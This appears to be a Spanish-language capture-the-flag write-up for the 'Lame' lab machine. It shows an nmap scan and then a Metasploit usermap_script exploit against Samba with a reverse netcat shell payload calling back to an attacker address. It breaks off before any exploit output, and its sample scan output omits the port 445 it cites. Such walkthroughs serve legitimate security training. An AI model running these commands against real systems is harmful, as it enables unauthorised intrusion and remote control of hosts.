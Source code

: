 
---
# Proceso de Explotación y Persistencia en la Máquina "Lame"

**Objetivo:** Obtener acceso completo a la máquina víctima explotando vulnerabilidades en los servicios expuestos (Samba y SSH) y garantizar la persistencia mediante el uso de claves SSH.

## 1. Reconocimiento de la Máquina

El primer paso fue realizar un escaneo de puertos para identificar servicios abiertos en la máquina. Para ello, usamos Nmap con diferentes opciones:

### Comando de escaneo inicial

```bash
nmap --open -sV -n -Pn -sS -v -oA initial_scan_nmap 10.10.10.3
```

Salida esperada (ejemplo):

```bash
22/tcp   open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet  Linux telnetd
...
```

Este escaneo nos reveló que el puerto 445 estaba abierto, lo cual es indicativo de que la máquina podría estar corriendo un servicio Samba vulnerable.

## 2. Detección de Vulnerabilidades a través de Servicios Expuestos

### 2.1. Detección de vulnerabilidad en Samba

Con el puerto 445 identificado, decidimos investigar más a fondo el servicio que estaba corriendo en ese puerto. Usamos el módulo de Metasploit `multi/samba/usermap_script` para detectar una posible vulnerabilidad en Samba.

### Comando de Metasploit

```bash
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set RPORT 445
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 10.10.16.52
set LPORT 4444
exploit
```

La salida de Metasploit fue la siguiente:
